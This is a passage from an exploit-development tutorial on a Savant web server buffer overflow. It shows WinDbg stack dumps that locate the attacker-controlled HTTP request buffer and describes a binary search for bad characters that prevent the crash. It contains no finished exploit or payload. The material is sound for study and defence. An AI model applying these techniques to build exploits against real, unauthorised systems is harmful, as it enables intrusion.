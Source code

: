 None of the registers point to our buffer.

The next thing is to search in the stack frame if there is any pointer to our buffer:
```c
0:004> dds esp L2
0505ea1c  00414141 Savant+0x14141
0505ea20  0505ea74
```

By some reason, the second DWORD in a stack points to a **location that is very close to the stack! It's like pointing an internal stack location.** Let's analyze it:
```c
0:004> dc 0505ea74
0505ea74  00544547 00000000 00000000 00000000  GET.............
0505ea84  00000000 00000000 4141412f 41414141  ......../AAAAAAA
0505ea94  41414141 41414141 41414141 41414141  AAAAAAAAAAAAAAAA
0505eaa4  41414141 41414141 41414141 41414141  AAAAAAAAAAAAAAAA
0505eab4  41414141 41414141 41414141 41414141  AAAAAAAAAAAAAAAA
0505eac4  41414141 41414141 41414141 41414141  AAAAAAAAAAAAAAAA
0505ead4  41414141 41414141 41414141 41414141  AAAAAAAAAAAAAAAA
0505eae4  41414141 41414141 41414141 41414141  AAAAAAAAAAAAAAAA
```

It looks like it's a pointer to the HTTP request content, as, in such location, we can see that there is the HTTP Method stored, followed by several null bytes, and our controlled buffer.

# Badchars do not break the buffer, they break the program behavior
In the previous buffer overflows, when inserting badchars to check the presence of them, we could see the specific characters that make the buffer break, as the application still crashes and we can inspect the badchar buffer in depth.

But there can be the case where inserting badchars just **prevent the application from crashing, or that make the application crash but the EIP is not overwritten anymore.** In that case, we cannot see which one is the problematic one, but we have to infer it by other means.
That is why it is important to always try sending a buffer with the same character, and always a character that is commonly accepted, as "A".

In order to detect which badchars are preventing the application from crashing, we will do a binary search.
The first half of the badchars will be sent, while the other is not sent. We will analyze in which half of the badchars array the application keeps running, and in which one does not. We will keep repeating such process iteratively until we find the badchar(s) that are preventing the application from running.

By doing this in our Savant application, we overwrite the instruction pointer when the second half of the badchars are sent. That means that the badchars are in the first half. We will break the first half in two to detect which badchars are the problematic, and so on.
After deleting some badchars, we see that the app crashes and EIP is overwritten, but we have to inspect if any of the badchars are not stored in the buffer like we previously did n the base buffer overflow:

```C
0:005> dd esp L30
0473ea1c  0473fe00 0473ea74 0041703c 005d2bf0
0473ea2c  005d2bf0 00000000 00000000 00000000
0473ea3c  00000000 00000000 00000000 00000000
0473ea4c  00000000 00000000 00000000 00000000
0473ea5c  00000000 00000000 00000000 00000000
0473ea6c  00000000 00000002 00544547 00000000
0473ea7c  00000000 00000000 00000000 00000000
0473ea8c  0302012f 07060504 0c0b0908 11100f0e
0473ea9c  15141312 19181716 1d1c1b1a 21201f1e
0473eaac  25242322 29282726 2d2c2b2a 31302f2e
0473eabc  35343332 39383736 3d3c3b3a 41403f3e
0473eacc  45444342 49484746 4d4c4b4a 51504f4e
0:005> db 0473ea8D LFF
```